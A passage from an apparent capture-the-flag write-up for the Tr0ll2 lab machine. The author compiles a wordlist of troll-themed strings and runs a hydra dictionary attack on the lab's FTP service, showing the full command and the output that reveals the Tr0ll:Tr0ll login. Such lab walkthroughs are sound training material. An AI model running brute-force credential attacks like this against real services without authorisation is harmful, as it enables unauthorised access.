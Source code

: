 After more poking around, a cup of coffee and some frustration, I wasn't able to squeeze out anything interesting from the ```answer.txt``` file or the webserver, so I moved on to focus on FTP server.

Having a list of *potential* usernames and passwords, I decided to perform dictionary attack on the FTP server using harvested data as below.

*Note: after numerous trials and errors, frustration and doubts, I decided to add more words to the dictionary*

```
root@kali:~/Desktop# cat dict.txt 
ItCantReallyBeThisEasyRightLOL
noooob_lol
trollololol
noob
nope
try_harder
keep_trying
isnt_this_annoying
nothing_here
404
LOL_at_the_last_one
trolling_is_fun
zomg_is_this_it
you_found_me
I_know_this_sucks
You_could_give_up
dont_bother
will_it_ever_end
I_hope_you_scripted_this
ok_this_is_it
stop_whining
why_are_you_still_looking
just_quit
seriously_stop
troll
Tr0ll
Tr0ll2
Tr0ll:2
Tr0llv2
Maleus
```

Let's use ```hydra``` and see if we'll be able to crack the username:password combination with any of those.

```
root@kali:~/Desktop# hydra -t 30 -L dict.txt -P dict.txt 172.16.246.135 ftp -e nsr -f
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-10-28 21:42:16
[DATA] 30 tasks, 1 server, 990 login tries (l:30/p:33), ~33 tries per task
[DATA] attacking service ftp on port 21

[STATUS] 620.00 tries/min, 620 tries in 00:01h, 370 todo in 00:01h, 30 active
[21][ftp] host: 172.16.246.135   login: Tr0ll   password: Tr0ll
[STATUS] attack finished for 172.16.246.135 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-10-28 21:43:38
```
